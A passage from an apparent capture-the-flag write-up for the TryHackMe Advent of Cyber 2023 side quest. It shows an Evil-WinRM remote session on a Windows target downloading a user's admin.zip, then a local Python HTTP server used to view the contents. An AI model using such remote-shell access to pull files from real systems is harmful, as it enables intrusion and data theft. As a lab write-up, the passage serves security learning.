 ```
d-r---        9/15/2018   7:19 AM                Favorites
d-r---        9/15/2018   7:19 AM                Links
d-r---        9/15/2018   7:19 AM                Music
d-r---        9/15/2018   7:19 AM                Pictures
d-----        9/15/2018   7:19 AM                Saved Games
d-r---        9/15/2018   7:19 AM                Videos
-a----       12/11/2023   4:51 PM        1667881 admin.zip


do*Evil-WinRM* PS C:\Users\vansprinkles> download admin.zip
                                        
Info: Downloading C:\Users\vansprinkles\admin.zip to admin.zip
                                        
Info: Download successful!
```
With a quick python3 -m http.server --bind 0.0.0.0 9000 I had it open in my browser to look at it the way it was intended.

![alt text](../../../assets/images/ctf/events/tryhackme-advent-of-cyber-23/2023-12-23-side-quest-3.md/2023-12-23-side-quest-3/image-12.png)

McGreedy is complaining about full screen snapshots that might leak valuable data. And even goes into deleting an image and sending a cropped version of it using "Snip & Sketch", the Windows 11 default screen clipping tool:
